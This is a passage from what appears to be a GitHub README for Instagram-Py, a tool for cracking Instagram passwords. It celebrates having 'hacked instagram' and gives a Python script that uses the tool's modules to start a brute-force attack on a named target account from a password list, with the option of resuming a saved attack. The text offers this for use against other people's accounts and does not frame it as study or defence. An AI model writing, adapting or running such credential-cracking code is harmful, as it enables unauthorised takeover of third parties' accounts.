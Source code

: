 Thats it you just hacked instagram with a very simple algorithm!

Contribution
https://img.shields.io/github/contributors/deathsec/instagram-py.svg?style=flat-square

Contribute anything you can to this repo (Issues | Pull request) , help is much appreciated.

Please Refer CONTRIBUTING for more information on contributing!

Using Instagram-Py as API
Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!

For some reason you wish not to use my software then you can use my software as a module and embed into your own software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

Follow the same installation method mentioned above to install Instagram-Py API.

This is a simple script to conduct a bructe force attack using instagram-py as a API.

#!/usr/bin/env python3
'''
  This is the same thing that is in the __init__ file of the command-line
  tool.
'''
from InstagramPy.InstagramPyCLI import InstagramPyCLI
from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH
from InstagramPy.InstagramPyInstance import InstagramPyInstance
from datetime import datetime

username = "TARGET ACCOUNT USERNAME"
password = "PASSWORD LIST PATH"

appInfo = {
   "version"     : "0.0.1",
   "name"        : "Instagram-Py Clone",
   "description" : "Some Module to crack instagram!",
   "author"      : "YourName",
   "company"     : "YourCompany",
   "year"        : "2017",
   "example"     : ""
}

cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)

'''
# USE THIS IF YOU WANT
cli.PrintHeader()
cli.PrintDatetime()
'''
session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli)
session.ReadSaveFile(True) # True to countinue attack if found save file.
'''
# USE THIS IF YOU WANT
cli.PrintMagicCookie(session.magic_cookie)
'''
